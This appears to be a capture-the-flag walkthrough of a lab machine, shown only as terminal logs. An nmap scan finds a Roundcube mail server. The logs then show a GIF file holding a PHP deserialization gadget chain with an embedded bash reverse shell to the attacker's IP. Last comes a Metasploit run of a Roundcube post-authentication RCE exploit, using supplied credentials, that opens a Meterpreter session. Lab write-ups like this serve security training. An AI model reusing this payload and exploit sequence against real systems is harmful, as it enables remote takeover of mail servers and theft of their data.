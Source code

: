 ```bash
└─# nmap --open -sS -sV -T5 -n -Pn -A 10.10.11.77
Starting Nmap 7.95 ( https://nmap.org ) at 2025-07-15 04:49 EDT
Nmap scan report for 10.10.11.77
Host is up (0.069s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 9.6p1 Ubuntu 3ubuntu13.12 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 0c:4b:d2:76:ab:10:06:92:05:dc:f7:55:94:7f:18:df (ECDSA)
|_  256 2d:6d:4a:4c:ee:2e:11:b6:c8:90:e6:83:e9:df:38:b0 (ED25519)
80/tcp open  http    nginx 1.24.0 (Ubuntu)
|_http-title: Did not follow redirect to http://mail.outbound.htb/
|_http-server-header: nginx/1.24.0 (Ubuntu)
Device type: general purpose|router
Running: Linux 5.X, MikroTik RouterOS 7.X
OS CPE: cpe:/o:linux:linux_kernel:5 cpe:/o:mikrotik:routeros:7 cpe:/o:linux:linux_kernel:5.6.3
OS details: Linux 5.0 - 5.14, MikroTik RouterOS 7.2 - 7.5 (Linux 5.6.3)
Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 80/tcp)
HOP RTT      ADDRESS
1   49.13 ms 10.10.14.1
2   88.96 ms 10.10.11.77

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 14.55 seconds
```

```bash
└─# cat /etc/hosts
127.0.0.1       localhost
127.0.1.1       kali
::1             localhost ip6-localhost ip6-loopback
ff02::1         ip6-allnodes
ff02::2         ip6-allrouters

10.10.11.77     mail.outbound.htb
```
```bash
└─# strings 'exploit(1).gif'                                                                                       
GIF89a
O:32:"Monolog\Handler\SyslogUdpHandler":1:{s:9:"*socket";O:29:"Monolog\Handler\BufferHandler":7:{s:10:"*handler";r:2;s:13:"*bufferSize";i:-1;s:9:"*buffer";a:1:{i:0;a:2:{i:0;s:52:"bash -c 'bash -i >& /dev/tcp/10.10.14.105/4444 0>&1'";s:5:"level";N;}}s:8:"*xlevel";N;s:14:"*initialized";b:1;s:14:"*bufferLimit";i:-1;s:13:"*processors";a:2:{i:0;s:7:"current";i:1;s:6:"system";}}}

┌──(root㉿kali)-[/home/kali/Downloads]
└─# strings 'exploit.gif'                                                                                        
GIF89a
@payload.txt
``

```bash
msf6 > search CVE-2025-49113

Matching Modules
================

   #  Name                                                  Disclosure Date  Rank       Check  Description
   -  ----                                                  ---------------  ----       -----  -----------
   0  exploit/multi/http/roundcube_auth_rce_cve_2025_49113  2025-06-02       excellent  Yes    Roundcube ≤ 1.6.10 Post-Auth RCE via PHP Object Deserialization
   1    \_ target: Linux Dropper                            .                .          .      .
   2    \_ target: Linux Command                            .                .          .      .


Interact with a module by name or index. For example info 2, use 2 or use exploit/multi/http/roundcube_auth_rce_cve_2025_49113
After interacting with a module you can manually set a TARGET with set TARGET 'Linux Command'

msf6 > use 0
[*] Using configured payload linux/x64/meterpreter/reverse_tcp
msf6 exploit(multi/http/roundcube_auth_rce_cve_2025_49113) > show options

Module options (exploit/multi/http/roundcube_auth_rce_cve_2025_49113):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   HOST                        no        The hostname of Roundcube server
   PASSWORD                    yes       Password to login with
   Proxies                     no        A proxy chain of format type:host:port[,type:host:port][...]. Supported proxies: sapni, socks4, socks5, socks5h, http
   RHOSTS                      yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metasploit.html
   RPORT      80               yes       The target port (TCP)
   SSL        false            no        Negotiate SSL/TLS for outgoing connections
   SSLCert                     no        Path to a custom SSL certificate (default is randomly generated)
   TARGETURI  /                yes       The URI of the Roundcube Application
   URIPATH                     no        The URI to use for this exploit (default is random)
   USERNAME                    yes       Email User to login with
   VHOST                       no        HTTP server virtual host


   When CMDSTAGER::FLAVOR is one of auto,tftp,wget,curl,fetch,lwprequest,psh_invokewebrequest,ftp_http:

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   SRVHOST  0.0.0.0          yes       The local host or network interface to listen on. This must be an address on the local machine or 0.0.0.0 to listen on all addresses.
   SRVPORT  8080             yes       The local port to listen on.


Payload options (linux/x64/meterpreter/reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST                   yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Linux Dropper



View the full module info with the info, or info -d command.

msf6 exploit(multi/http/roundcube_auth_rce_cve_2025_49113) > set SRVPORT 80
SRVPORT => 80
msf6 exploit(multi/http/roundcube_auth_rce_cve_2025_49113) > set SRVHOST 10.10.11.77
SRVHOST => 10.10.11.77
msf6 exploit(multi/http/roundcube_auth_rce_cve_2025_49113) > set LHOST 10.10.14.123
LHOST => 10.10.14.123
msf6 exploit(multi/http/roundcube_auth_rce_cve_2025_49113) > set LPORT 4444
LPORT => 4444
msf6 exploit(multi/http/roundcube_auth_rce_cve_2025_49113) > set PASSWORD LhKL1o9Nm3X2
PASSWORD => LhKL1o9Nm3X2
msf6 exploit(multi/http/roundcube_auth_rce_cve_2025_49113) > set USERNAME tyler
USERNAME => tyler
msf6 exploit(multi/http/roundcube_auth_rce_cve_2025_49113) > set RHOSTS http://mail.outbound.htb/
RHOSTS => http://mail.outbound.htb/
msf6 exploit(multi/http/roundcube_auth_rce_cve_2025_49113) > run
[*] Started reverse TCP handler on 10.10.14.123:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[+] Extracted version: 10610
[+] The target appears to be vulnerable.
[*] Fetching CSRF token...
[+] Extracted token: iddjjBHYZ1evRXgRqMa5RqOQKr2iDund
[*] Attempting login...
[+] Login successful.
[*] Preparing payload...
[+] Payload successfully generated and serialized.
[*] Uploading malicious payload...
[+] Exploit attempt complete. Check for session.
[*] Sending stage (3045380 bytes) to 10.10.11.77
[*] Meterpreter session 1 opened (10.10.14.123:4444 -> 10.10.11.77:54704) at 2025-07-16 09:30:37 -0400
```
